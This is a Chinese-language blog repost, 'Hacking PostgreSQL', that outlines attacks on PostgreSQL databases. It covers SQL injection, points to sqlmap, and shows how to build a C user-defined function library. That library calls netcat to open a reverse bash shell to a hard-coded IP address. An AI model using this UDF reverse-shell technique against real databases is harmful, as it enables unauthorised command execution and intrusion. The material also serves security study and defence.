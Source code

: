 ## Hacking PostgreSQL 
##### [TAG 6](../class/6.md)
            
### 作者           
digoal            
            
### 日期          
2016-10-18             
            
### 标签          
PostgreSQL , sql注入 , ssrf , PostgreSQL , hacking           
            
----          
            
本文为转载文章，原文地址  
   
http://www.cnblogs.com/Yinxinghan/p/Hacking_PostgreSQL.html  
  
## 背景
这篇文章主要讲解了如何 Hacking PostgreSQL 数据库，总结了一些常用方法。   
  
## SQL 注入
大体上和 MySQL 差不多，有一些变量不一样。    
  
具体就不再举例，可以看这篇总结：PostgreSQL SQL Injection Cheat Sheet。   
    
此外，利用 sqlmap 也是一个不错的方式。   
    
## 执行命令
### C
sqlmap 给出的几个 UDF 在我本地测试并不成功，所以最好的方法是自己编译一个动态链接库。  
  
根据官方文档，我们要定义一个 PG_MODULE_MAGIC。  
  
大概是 PostgreSQL 的安全机制，在 8.2 以后需要验证这个 magic block，不然，在加在动态链接库的时候会报错：   
  
```
ERROR:  incompatible library "xxx.so": missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
  
执行系统命令的动态链接库源码为：   
  
```
 1 #include "postgres.h"
 2 #include "fmgr.h"
 3 #include <stdlib.h>
 4 
 5 #ifdef PG_MODULE_MAGIC
 6 PG_MODULE_MAGIC;
 7 #endif
 8 
 9 text *exec()
10 {
11     system("nc -e /bin/bash 10.211.55.2 9999");
12 }
```
   